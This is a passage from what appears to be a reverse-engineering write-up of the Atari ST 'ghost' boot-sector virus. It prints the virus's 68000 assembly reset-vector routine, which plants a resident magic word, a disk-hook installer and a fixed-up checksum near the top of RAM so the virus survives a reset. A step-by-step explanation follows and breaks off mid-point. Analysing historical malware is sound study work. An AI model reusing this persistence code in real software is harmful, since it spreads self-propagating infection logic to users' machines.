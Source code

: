 RESET_VECTOR:                                           ; $194
            MOVEA.L   PHYSTOP.W,A1                      ; Set A1 to phystop (end of mem), $80000/524288 on 520ST
                                                        ; ghost looks to install itself at a required $200 boundary page
                                                        ; at page 40 ($8000) - 1 ($200)
            SUBA.L    #RESET_VECTOR_PAGE,A1
            SUBA.L    #RESET_VECTOR_SUBPAGE,A1          ; decrease a memory page (512 bytes)

            MOVE.L    A1,D1                             ; Save location address (needed to TOS)
            ifne _DEBUG_
            MOVE.L    D1,DEBUG_ADDR.W
            endc

            MOVE.L    #RESIDENT_MAGIC,(A1)+             ; Add magic word 0x12123456 that TOS looks for
            MOVE.L    D1,(A1)+                          ; then actual memory address of the magic work

                                                        ; In successful case, TOS first does a wrd
                                                        ; checksum, which has to be $5678. If that  is correct, the code on
                                                        ; that  double  memory  page  is  executed  through JSR with return
                                                        ; address in A6.

            LEA       INSTALL_HDV_HPB(PC),A3            ; A3 = INSTALL_HDV_HPB vector routine
            LEA       HDV_HPB_VECTOR(PC),A4             ; A3 = HDV_HPB_VECTOR copy routine
COPY_INSTALL_HDV_HPB:
            MOVE.W    (A3)+,(A1)+                       ; copy INSTALL_HDV_HPB vector routine after magic word / address
            CMPA.L    A4,A3                             ; until copy routine address in reached
            BLT.S     COPY_INSTALL_HDV_HPB

            LEA       LOADER(PC),A3                     ; A3 = bootloader start
            MOVE.L    A3,(A1)+                          ; then set it at the end (why? after RTS?)

            MOVEA.L   D1,A3                             ; Reset A3 to ram top location
            CLR.W     D0                                ; clear d0 to store checksum
            MOVE.W    #$FE,D2                           ; D2 = 254 words (2 pages)
CALC_RESIDENT_CHK:
            ADD.W     (A3)+,D0                          ; Compute checksum
            DBF       D2,CALC_RESIDENT_CHK              ;
            MOVE.W    #RESIDENT_CHK,D2                  ; then substract $5678 to adjust the checksum
            SUB.W     D0,D2                             ;
            MOVE.W    D2,(A3)                           ; copy this value to the end of the virus

            MOVE.L    #0,RESVEC_ENA.W                   ; remove magic value to resvector
            MOVEA.L   ORIGINAL_RESET_VECTOR(PC),A1      ; get reset vector address in a1
            CMPA.L    #0,A1                             ; check reset vector address is empty
            BNE       RESET_VECTOR_SET                  ; if not jump to reset vector address
            JMP       (A6)                              ; else jump to original resetvec return address
RESET_VECTOR_SET:
            JMP       (A1)
'''

So in order, the reset vector routine:

 1. Sets a specific target address: end of ST RAM ('PHYSTOP' ('0x42E') depends on model 520, 1040..., for example that's '0x80000' on a 520, '0x100000' on a 1040), then minus '0x8000' and minus '0x200' (basically 32KB + 512 bytes before the end of the available memory)
    1. It has to be on a '0x200' (512) bytes boundary
    1. It is better to be near the end of the memory to limit chances to be overlapped and erased after reset
    1. You'll notice the memory substraction in done in 2 steps and not a "simple" 'SUBA.L #$8200,A1'. Why? It looks to be linked to 68K SUBA opcode which considered the offset as signed as $8000 is half a word. I need to investigate what the assember generates for the size specification:

